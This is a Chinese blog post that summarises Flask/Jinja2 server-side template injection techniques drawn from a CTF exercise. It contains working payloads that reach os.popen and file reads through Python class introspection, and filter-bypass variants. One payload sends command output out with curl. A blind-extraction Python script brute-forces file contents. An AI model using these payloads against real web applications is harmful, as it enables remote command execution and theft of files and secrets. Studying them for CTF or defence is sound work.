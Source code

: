 ```yaml
---
layout: post
title:  "flask框架ssti ctf利用小结"
subtitle: 'flask框架ssti ctf利用小结'
date:   2020-04-08 18:00:00
tags: SSTI CTF WEB安全 
description: 'SSTI CTF WEB安全'
color: 'RGB(205,85,85)'
---
```


#### 前言
闲着刷攻防世界题目的时候遇到一个题目，打开一看可以明显感觉到是服务器模板注入（SSTI），对漏洞原理倒是了解，但是payload构造却难住了，搜索相关资料后做一个记录，加固理解并分享。

#### 题目源码


#### 服务端模板注入
当web应用使用模板系统（如twig，jinja2等），在网页中插入动态内容。当输入内容被恶意控制时，就会产生该漏洞。

#### 在python如何利用ssti攻击
在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。

```
>>> print("".__class__)
>>> <class 'str'>
```
对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。

```
>>> print("".__class__.__bases__)
(<type 'basestring'>,)
>>> print("".__class__.__base__.__base__)
<type 'object'>
>>> print("".__class__.__mro__)
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```
这样就找到了他的基类object。也可以通过mro（解析方法调用的顺序）进行查找。
在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。

```
>>> print("".__class__.__mro__[2].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```
使用subclasses()方法（返回的是这个类的子类的集合），返回object类子类的集合
接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。
瞅了一圈没找到。
尝试初始化了一些变量，但是没找到想要的东西，可能是因为是python2.7的缘故或者windows环境问题

```
print(object.__subclasses__()[61].__init__.__globals__)
```
不过问题不大，这里的主要目的明白即可。
==通过基类找到可以执行命令或者文件操作的类，然后找具体函数调用即可。==

一些payload
```
# object.__subclasses__()[40]为file类
object.__subclasses__()[40]('/etc/passwd').read()
# object.__subclasses__()[59].__init__.func_globals.linecache下直接有os类
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()

```

然后就需要在ctf中各种过滤

##### 过滤中括号

```
使用__getitim__绕过中括号限制
request.__class__.__mro__.__getitem__(8)
```


##### 过滤引号


##### 过滤双下划线

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

##### 过滤大括号

```
利用标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
相当于盲命令执行，利用curl将执行结果带出来
读取文件可以利用盲注的方法逐位将内容爆出来
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
使用盲注脚本修改一下即可
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

#### 题解
这个ctf题目过滤了括号，还加了黑名单[config , self ]  
这里就又涉及到另外一个知识  
flask 中内置的的变量函数  

##### flask 中内置的的变量函数  
```
config ：可以从模板中直接访问Flask当前的config对象：{{config.SQLALCHEMY_DATABASE_URL}}

request : 就是flask中代表当前请求的request对象 ， {{request.url}}

session :为Flask的session对象 ,{{session.new}} True

g变量：在视图函数中设置g变量的那么属性的值，然后再模板中直接可以取出{{g.name}}

url_for() : url_for会根据传入的路由器函数名，返回该路由的URL，在模板中始终使用url_for（）就可以安全的修改路由绑定的URL，则不必担心模板中渲染错的连接，{{url_for('home')}} ，如果我们定义的路由URL是带有参数的，则可以把他们作为关键字参数传入url_for（），Flask会把他们填充进最终生成的URL中，{{url_for('post',post_id=1)}}

get_flashed_messages():这个函数会返回之前在flask中通过flask（）传入的消息的列表，flash函数的作用很简单，可以把由Python字符串表示的信息加入一个消息队列中，在使用get_flashed_message()函数取出他们并消费掉


{%for message in get_flashed_messages()%}
{{message}}
{% endfor %}
```

##### payload
最后构造出如下payload

```

{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}

```


#### 各类ssti的一些模板渲染引擎及利用
![7.png](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)
#### 参考链接
https://xz.aliyun.com/t/3679  
https://p0sec.net/index.php/archives/120/
